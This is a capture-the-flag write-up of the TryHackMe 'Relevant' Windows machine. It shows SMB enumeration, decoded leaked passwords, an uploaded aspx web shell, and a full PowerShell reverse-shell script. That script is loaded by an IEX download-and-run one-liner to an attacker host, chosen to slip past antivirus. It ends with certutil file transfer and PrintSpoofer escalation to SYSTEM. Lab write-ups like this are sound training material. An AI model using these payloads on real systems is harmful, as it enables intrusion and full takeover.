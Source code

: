 # TryHackMe Machine Relevent

**IP Address**
```shell
export ip=10.10.111.67
```

## Scanning

```
PORT      STATE SERVICE
80/tcp    open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-18T15:08:49+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-17T14:37:56
| Not valid after:  2023-02-16T14:37:56
| MD5:   8705 7420 7bf9 8563 bb66 29f5 cdde fd1d
|_SHA-1: 2c85 81dc 2811 d9b2 0d70 9cf7 593b 6b12 b260 53cc
|_ssl-date: 2022-08-18T15:08:48+00:00; -2m42s from scanner time.
49663/tcp open  http
49667/tcp open  unknown

Host script results:
|_clock-skew: mean: 1h21m18s, deviation: 3h07m50s, median: -2m42s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-18T08:08:49-07:00
| smb2-time: 
|   date: 2022-08-18T15:08:48
|_  start_date: 2022-08-18T14:38:15
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

## Enumeration

```
smbclient -L \\\\$ip\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
```
The `nt4wrksv` share have anonymous login. We can connect to it using the following.
```shell
smbclient \\\\$ip\\nt4wrksv
```
In the share there is a `passwords.txt` file that have the following content.
```text
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
It looks like password encoded with `base64` after decoding it got the following results.
```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
I tried above password on RDP but It doesn't work.

**HTTP**
There are more then one http server running on the machine.

***Content-Discovery***
I run `ffuf` but doesn't found any usefull directory where we can use the above credentials or do any other things.
I try `nt4wrksv` share name on the web server and luckily it show status 200. That means that directory exits and when I request for `passwords.txt` it show me its content. I try uploading files from `smb` and I was successfully able to do that. Now we can upload any reverse shell code and execute it by visiting the page. As its a windows IIS server that use `aspx` or `asp` files as its backend language so we have to make our reverse shell using that. We can make reverse shell using `msfvenom` but I copy `/usr/share/webshells/aspx/cmdasp.aspx` on my current directory and upload it using the following command.
```smb
smb: \> put cmdasp.aspx
```
After that I visit the page on this link `http://$ip/nt4wrks/cmdasp.aspx` and they show me command execution box i can submit any command on there and they show me its output. I know i can directly get the reverse shell instead of this but its also a other possiblity to execute commands. Now I try to get a reverse shell by uploading reverse shell binary(.exe) but AntiVirus Delete all of them and also I cannot able to execute powershell reverse shell code from there because antivirus mark that malicious. So I search in google and got the following command that download a text file that contain powershell reverse shell code and after downloading that they execute it without alerting antivirus software. So I host the following powershell code 

```powershell
function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
// Setup IPADDR
$address = '10.11.79.134'
// Setup PORT
$port = '4444'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
And save it with the name `powershell.reverse.txt` and host it using `python` http server.

Now I use this command on `cmdasp.aspx` endpoint and I got my reverse shell back without alerting the antivirus software.
```Reverse-Shell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://10.11.79.134/powershell.reverse.txt')"
```

## Priv-Escallation
Now I host `winpeas.bat` and transfer it using python http server i can also upload that using smb but i want a lengthy path.
```powershell
certutil.exe -urlcache -split -f http://10.11.79.134/winPEAS.bat winpeas.bat
```
After running `winpeas.bat` they show me our user have the following privilleges.

```cmd.exe
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
There we can see `SeImpersonatePrivilege` is enabled and we can abuse that using `PrintSpoofer` so I download printspoofer from this link https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
and send it to the target system and use the following command to get the system user.
```cmd.exe
PrintSpoofer64.exe -i -c cmd.exe
```
This opens a command prompt with `nt authority\system` and we got the root/system.
